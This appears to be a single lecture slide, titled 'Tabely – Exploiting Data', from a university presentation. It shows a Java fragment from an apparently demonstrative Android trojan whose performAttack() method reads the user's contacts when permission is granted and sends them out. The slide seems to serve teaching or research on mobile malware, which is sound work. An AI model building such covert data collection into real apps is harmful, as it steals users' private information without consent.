

# Tabely – Exploiting Data
public void performAttack() {
    //Contacts
    if (homeActivity.checkPermission(Manifest.permission.READ_CONTACTS)) {
        String data = homeActivity.gatherContactInformation();
        sendData(data);
    } else {
        sendData("Client: " + uuid + " has not granted contacts permission");
    }
    //Calendar
    …
}
Dr. rer. nat. Erika Mustermann (TUM) | kann beliebig erweitert werden | Infos mit Strich trennen
14